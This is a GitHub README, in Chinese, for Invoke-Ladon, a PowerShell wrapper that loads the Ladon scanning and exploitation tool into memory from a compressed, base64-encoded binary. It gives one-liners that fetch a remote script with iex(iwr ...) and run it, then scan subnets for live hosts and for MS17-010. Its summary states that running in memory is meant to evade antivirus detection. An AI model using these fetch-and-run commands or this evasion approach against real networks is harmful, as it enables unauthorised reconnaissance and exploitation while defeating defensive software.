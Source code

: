 # Invoke-Ladon
Invoke-Ladon





## 前言：

之前使用Ladon的Powershell版本的时候似乎不能把扫描内容输出到txt文本中，因此我对它做了一点小小的修改。

使用Gzip-compress 和 base64-Encode 转换Ladon的二进制文件然后base64编码解码 并通过[System.Reflection.Assembly]::Load($DecompressedDecodedBinary)在powershell中加载Ladon的二进制文件



## 使用方法：

注意参数中需要加双引号



#### 1.扫描在线主机

```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-Ladon/main/Invoke-Ladon.ps1);
invoke-ladon "192.168.1.8/24 OnlinePC" > OnlinePC.txt
```

![image-20221022163749096](C:\Users\Old Green\AppData\Roaming\Typora\typora-user-images\image-20221022163749096.png)



#### 2.扫描漏洞MS17017



```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-Ladon/main/Invoke-Ladon.ps1);
invoke-ladon "192.168.1.8/24 MS17010" > MS17010.txt
```

![image-20221022164026849](C:\Users\Old Green\AppData\Roaming\Typora\typora-user-images\image-20221022164026849.png)



具体使用方法请参考：https://github.com/k8gege/Ladon

或者直接把调用命令放在脚本最后一行

![image-20221022164515686](C:\Users\Old Green\AppData\Roaming\Typora\typora-user-images\image-20221022164515686.png)

### 总结

使用某些方法可以封装powershell的脚本，让powershell在内存中运行，以此规避一些防病毒软件的查杀，这样就防止从Ladon的源码进行免杀处理的操作
